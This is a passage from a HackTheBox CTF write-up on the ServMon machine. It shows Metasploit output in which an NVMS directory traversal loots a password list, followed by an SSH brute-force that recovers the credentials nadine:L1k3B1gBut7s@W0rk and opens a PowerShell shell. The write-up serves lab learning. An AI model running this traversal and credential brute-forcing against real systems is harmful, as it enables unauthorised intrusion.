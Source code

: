 ```
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal)

$ cat /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

### Network exploitation: SSH

With the looted passwords let's bruteforce SSH for the users nadine and nathan
by using a [metasploit][msf] module.

```
msf5 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
PASS_FILE => /home/cyfun/.msf4/loot/20200611175532_default_10.10.10.184_nvms.traversal_675310.txt
msf5 auxiliary(scanner/ssh/ssh_login) > set USER_FILE /home/cyfun/CTF/HackTheBox/machines/ServMon/usernames.txt
USER_FILE => /home/cyfun/CTF/HackTheBox/machines/ServMon/usernames.txt
msf5 auxiliary(scanner/ssh/ssh_login) > run

[+] 10.10.10.184:22 - Success: 'nadine:L1k3B1gBut7s@W0rk' ''id' is not recognized as an internal or external command,  operable program or batch file.  '
[*] Command shell session 1 opened (10.10.15.26:45331 -> 10.10.10.184:22) at 2020-06-11 18:10:19 +0200
[-] 10.10.10.184:22 - While a session may have opened, it may be bugged.  If you experience issues with it, re-run this module with 'set gatherproof off'.  Also consider submitting an issue at github.com/rapid7/metasploit-framework with device details so it can be handled in the future.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So a valid set of credentials was `nadine:L1k3B1gBut7s@W0rk`.

[metasploit][msf] automatically opened us a session but with `cmd.exe`. But I prefer
to have a powershell shell.

```
$ ssh nadine@10.10.10.184 powershell.exe
nadine@10.10.10.184's password: 
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\Nadine>
```
